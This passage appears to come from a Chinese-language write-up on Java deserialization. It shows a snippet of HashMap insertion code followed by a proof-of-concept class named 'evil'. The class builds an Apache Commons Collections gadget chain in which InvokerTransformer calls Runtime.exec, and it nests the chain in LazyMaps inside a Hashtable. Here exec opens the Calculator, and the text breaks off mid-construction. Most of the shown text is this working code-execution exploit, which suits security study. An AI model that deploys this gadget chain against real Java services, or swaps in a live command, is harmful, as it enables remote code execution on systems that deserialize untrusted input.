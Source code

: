 ```java
                entry.value = value;
                return old;
            }
        }
		//key不重复则添加元素
        addEntry(hash, key, value, index);
        return null;
    }
```

# POC

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.AbstractMap;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class evil {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{});
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new String[] {"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),
                new ConstantTransformer(1)
        };

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);
        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);

        Hashtable table = new Hashtable();
```